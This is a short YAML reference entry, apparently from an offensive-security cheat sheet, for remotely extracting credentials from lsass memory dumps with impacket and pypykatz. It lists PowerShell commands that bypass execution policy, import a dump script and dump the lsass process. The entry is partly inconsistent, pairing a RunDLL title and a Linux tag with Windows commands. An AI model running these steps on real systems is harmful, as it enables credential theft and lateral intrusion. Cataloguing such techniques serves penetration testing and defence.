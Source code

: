 ```yaml
---
title: |
  Extract Credentials Remotely (RunDLL)
description: |
  Python tool to remotely extract credentials on a set of hosts. This tool uses impacket project to remotely read necessary bytes in lsass dump and pypykatz to extract credentials.

  Commands:

  	1. Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

  	2. Import-Module .\dump.ps1

  	3. Get-Process lsass | Out-Xdump

command: |
  See commands
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/Hackndo/lsassy
  - https://en.hackndo.com/remote-lsass-dump-passwords/
---
```

